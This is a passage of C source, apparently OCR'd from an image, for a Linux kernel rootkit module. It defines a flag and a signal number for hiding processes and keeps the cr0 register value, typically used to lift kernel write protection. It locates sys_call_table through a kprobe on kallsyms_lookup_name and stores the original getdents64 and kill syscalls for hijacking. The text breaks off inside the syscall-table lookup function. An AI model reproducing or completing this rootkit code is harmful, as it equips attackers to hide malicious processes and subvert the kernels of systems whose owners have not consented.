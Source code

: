                     #define PF_INVISIBLE 0x10000000

                    #define HIDE_UNHIDE_PROCESS 32

                    // ==================================================================================

                    /* For storing read cr0 control register value
                    *
                    * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
                    *
                    * unsigned long (*read_cr0)(void);
                    */
                    unsigned long cr0;

                    // To store the address of the found sys_call_table
                    static unsigned long *__sys_call_table;

                    // Defining a function to store original syscalls
                    typedef asmlinkage long (*tt_syscall)(const struct pt_regs *);

                    static tt_syscall orig_getdents64;
                    static tt_syscall orig_kill;


                    /* kprobe:
                    * Acc. to: https://ish-ar.io/kprobes-in-a-nutshell/
                    * 
                    * Kprobes enables you to dynamically break into any kernel routine 
                    * and collect debugging and performance information non-disruptively.
                    *
                    * Basically,we would use it as an alternative way to create a custom kallsyms_lookup_name function which can actually be exported to kernel (>5.7) 
                    */ 
                    #include <linux/kprobes.h>

                    /*
                    * link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/kprobes.h#L75
                    *
                    * struct kprobe {
                    *      ...
                    *
                    *      // Allow user to indicate symbol name of the probe point
                    *      const char *symbol_name;
                    *      ...
                    *      }
                    */

                    static struct kprobe kp = {
                                .symbol_name = "kallsyms_lookup_name"
                    };

                    /* For storing address of sys_call_table */

                    unsigned long *get_syscall_table(void)
                    {
                      unsigned long *syscall_table;
